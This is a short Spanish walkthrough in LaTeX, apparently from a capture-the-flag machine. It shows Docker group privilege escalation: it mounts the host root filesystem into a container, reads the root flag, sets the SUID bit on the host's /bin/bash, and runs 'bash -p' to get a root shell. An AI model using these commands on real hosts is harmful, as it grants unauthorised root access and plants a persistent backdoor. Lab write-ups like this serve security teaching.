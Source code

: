\documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Checkear las imagenes Docker existentes

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ ps}
\end{Highlighting}
\end{Shaded}
\item
  Utilizar una imagen existente para crear un contenedor y \textbf{mountarle} la raiz del systema en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{docker}\NormalTok{ run --rm -it -v /:/mnt rodhes bash}
\BuiltInTok{cd}\NormalTok{ /mnt/root/}
\FunctionTok{cat}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}
\item
  Escalar privilegios en la maquina real

  \begin{itemize}
  \item
    en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/bin}
\FunctionTok{chmod}\NormalTok{ 4755 bash}
\BuiltInTok{exit}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina real

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}

\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}


\end{document}
